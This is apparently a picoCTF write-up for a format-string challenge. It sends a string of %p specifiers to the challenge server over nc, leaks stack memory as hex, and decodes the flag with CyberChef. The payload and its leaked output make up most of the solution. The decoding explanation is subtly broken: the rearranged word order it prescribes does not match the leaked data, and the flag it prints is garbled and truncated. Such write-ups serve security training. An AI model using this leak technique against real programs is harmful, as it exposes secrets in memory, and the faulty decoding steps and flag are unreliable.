 # Description

Patrick and Sponge Bob were really happy with those <br>
orders you made for them, but now they're curious <br>
about the secret menu. Find it, and along the way, <br>
maybe you'll find something else of interest! <br>
Download the binary here. <br>
Download the source here. <br>
Connect with the challenge instance here: <br>
nc mimas.picoctf.net 57322

# Solution

Can connect via this command: `nc mimas.picoctf.net 57322`

This payload of many `%p` values with commas could be sent to get the relevant values.

`%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p`

This gives many hex values:

`0x402118,(nil),0x73d0dde92a00,(nil),0x811880,0xa347834,0x7ffe00d7f2f0,0x73d0ddc83e60,0x73d0ddea84d0,0x1,0x7ffe00d7f3c0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35625f673431665f,0x7d663839623764,0x7,0x73d0ddeaa8d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9`

Then put it in [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&oeol=NEL) to convert from hex.

From there all of the bad values could be removed and easily seen what are the correct values that need to be looked at:

`0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35625f673431665f,0x7d663839623764`

It first could be seen that it is in reverse order so in [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')&oeol=NEL) the reverse function could be added. It now looks like the text is in the right order because "picoCTF{" could be seen however it doesn't look like the flag because the actual hex values need to be re-arranged as well. Here is the correct order:

`0x7d663839623764,0x355f31346d316e34,0x35625f673431665f,0x3478345f33317937,0x7b4654436f636970`

Decoding this should give the flag.

Flag: `picoCTF{7y13_4x4_f14g_b54n1m41_5d7...}` 
